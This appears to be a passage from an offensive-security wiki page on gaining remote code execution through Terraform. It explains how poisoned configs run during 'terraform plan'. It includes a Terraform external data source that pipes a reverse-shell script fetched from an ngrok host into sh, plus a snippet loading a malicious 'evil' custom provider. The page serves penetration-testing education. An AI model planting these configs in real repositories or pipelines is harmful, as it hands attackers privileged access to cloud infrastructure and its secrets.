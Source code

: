 However, terraform is a **very sensitive component** to compromise because it will have **privileged access** to different locations so it can work properly.

The main way for an attacker to be able to compromise the system where terraform is running is to **compromise the repository that stores terraform configurations**, because at some point they are going to be **interpreted**.

Actually, there are solutions out there that **execute terraform plan/apply automatically after a PR** is created, such as **Atlantis**:

{{#ref}}
atlantis-security.md
{{#endref}}

If you are able to compromise a terraform file there are different ways you can perform RCE when someone executed `terraform plan` or `terraform apply`.

### Terraform plan

Terraform plan is the **most used command** in terraform and developers/solutions using terraform call it all the time, so the **easiest way to get RCE** is to make sure you poison a terraform config file that will execute arbitrary commands in a `terraform plan`.

**Using an external provider**

Terraform offers the [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) which provides a way to interface between Terraform and external programs. You can use the `external` data source to run arbitrary code during a `plan`.

Injecting in a terraform config file something like the following will execute a rev shell when executing `terraform plan`:

```javascript
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

**Using a custom provider**

An attacker could send a [custom provider](https://learn.hashicorp.com/tutorials/terraform/provider-setup) to the [Terraform Registry](https://registry.terraform.io/) and then add it to the Terraform code in a feature branch ([example from here](https://alex.kaskaso.li/post/terraform-plan-rce)):

```javascript
 terraform {
        required_providers {
            evil = {
                source  = "evil/evil"
                    version = "1.0"
            }
        }
    }

provider "evil" {}
```
